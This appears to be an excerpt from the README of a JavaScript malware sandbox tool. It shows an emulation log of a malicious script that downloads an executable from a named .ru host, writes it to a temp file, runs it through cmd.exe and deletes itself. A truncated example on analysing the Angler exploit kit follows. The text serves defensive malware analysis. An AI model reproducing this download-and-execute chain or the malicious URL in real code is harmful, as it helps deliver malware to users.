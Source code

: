     30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetSpecialFolder(2) => TemporaryFolder/
    30 Sep 01:02:11 - Scripting.FileSystemObject[11].GetTempName() => TempFile[15]
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].open(GET,http://girlx.tornadodating.ru/js/boxun4.bin,0)
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13] string true
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async = 'false'
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].async.get() => false
    30 Sep 01:02:11 - MSXML2.XMLHTTP[13].send(undefined)
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].onreadystatechange(), readyState = 4 length: 196608 status: 200
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13] statusText = null
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].responseBody = 'MZ?@?!?L?!This program cannot be ... (truncated)'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].status = '200'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].onreadystatechange() undefined
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].send(undefined) finished
    30 Sep 01:02:15 - ADODB_Stream[14].type = '1'
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].ResponseBody.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:15 - ADODB_Stream[14].Open()
    30 Sep 01:02:15 - ADODB_Stream[14].content = 'MZ?@?!?L?!This program cannot be ... (truncated)'
    30 Sep 01:02:15 - ADODB_Stream[14].Write(str) - 196608 bytes
    30 Sep 01:02:15 - ADODB_Stream[14].size = '196608'
    30 Sep 01:02:15 - ADODB_Stream[14].SaveToFile(TemporaryFolder/TempFile[15], undefined)
    30 Sep 01:02:15 - ADODB_Stream[14].content.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:15 - ADODB_Stream[14].Close()
    30 Sep 01:02:15 - WScript.Shell[12].Run(cmd.exe /c TemporaryFolder/TempFile[15], 0, undefined)
    30 Sep 01:02:15 - Scripting.FileSystemObject[11].DeleteFile(script_full_name.js)
    30 Sep 01:02:15 - ==> Cleaning up sandbox.
    30 Sep 01:02:15 - ==> Script execution finished, dumping sandbox environment to a file.
    30 Sep 01:02:15 - MSXML2.XMLHTTP[13].ResponseBody.get() => MZ?@?!?L?!This program cannot be ... (truncated)
    30 Sep 01:02:16 - Saving: output/TemporaryFolder_TempFile[15]
    30 Sep 01:02:16 - Generated file saved
    30 Sep 01:02:16 - The sandbox context has been  saved to: sandbox_dump_after.json

Behaviour is obvious from the log. Payload has been extracted into the output/TemporaryFolder_TempFile[15] file. 

Log file: [malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out](malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out)


### Example: Analysing Angler EK ###

Download and extract Angler EK from a pcap file at [ANGLER EK SENDS CRYPTOWALL](http://www.malware-traffic-analysis.net/2015/12/21/index.html) into a [malware/angler/angler_full.html](malware/angler/angler_full.html).

Strip the non Angler part and save as [malware/angler/angler_stripped.html](malware/angler/angler_stripped.html).

Remove `<script>` tags and convert required `<div>` tags into:
    